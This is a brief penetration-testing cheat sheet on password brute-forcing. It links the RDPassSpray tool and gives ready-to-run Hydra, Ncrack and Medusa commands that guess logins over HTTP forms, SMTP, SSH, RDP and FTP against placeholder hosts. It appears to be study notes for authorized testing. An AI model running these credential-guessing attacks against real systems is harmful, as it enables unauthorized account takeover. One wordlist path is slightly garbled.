```yaml
---
description: force your way through
---
```


# Bruteforce

## By Protocol

### RDP

#### RDPassSpray

Link: [https://github.com/xFreed0m/RDPassSpray](https://github.com/xFreed0m/RDPassSpray)



## By Tools

### Hydra 

`hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin` 

**SMTP**:

`hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V` 

**SSH user with password list** 

`hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22` 

### Ncrack 

RDP user with password list 

`ncrack -vv --user offsec -P passwords rdp://10.10.10.10` 

### Medusa 

FTP user with password list 

`medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp` 


